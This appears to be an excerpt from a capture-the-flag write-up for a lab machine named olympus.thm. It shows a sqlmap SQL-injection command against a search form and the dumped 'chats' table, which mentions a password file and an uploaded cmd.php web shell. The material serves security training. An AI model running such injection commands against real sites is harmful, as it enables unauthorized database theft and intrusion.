 ```shell
+------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+
[REDACTED] 
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D olympus -T chats -C dt,file,msg,uname --dump --flush-session
[REDACTED]
Database: olympus                                                                                                     
Table: chats                                                                                                          
[13 entries]                                                                                                          
+------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+        
| dt         | file                                 | msg                                                             
                                                                                                | uname      |        
+------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+        
| 2022-04-05 | 47c3210d51761686f3af40a875eeaaea.txt | Attached : prometheus_password.txt                              
                                                                                                | prometheus |        
| 2022-04-05 | <blank>                              | This looks great! I tested an upload and found the upload folder
, but it seems the filename got changed somehow because I can't download it back...             | prometheus |        
| 2022-04-06 | <blank>                              | I know this is pretty cool. The IT guy used a random file name f
unction to make it harder for attackers to access the uploaded files. He's still working on it. | zeus       |        
| 2022-09-23 | <blank>                              | <blank>                                                         
                                                                                                | prometheus |        
| 2022-09-23 | c892fb409f85b25008b9d49da321df68.php | Attached : cmd.php                                              
                                                                                                | prometheus |        
-------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+
[REDACTED]
```
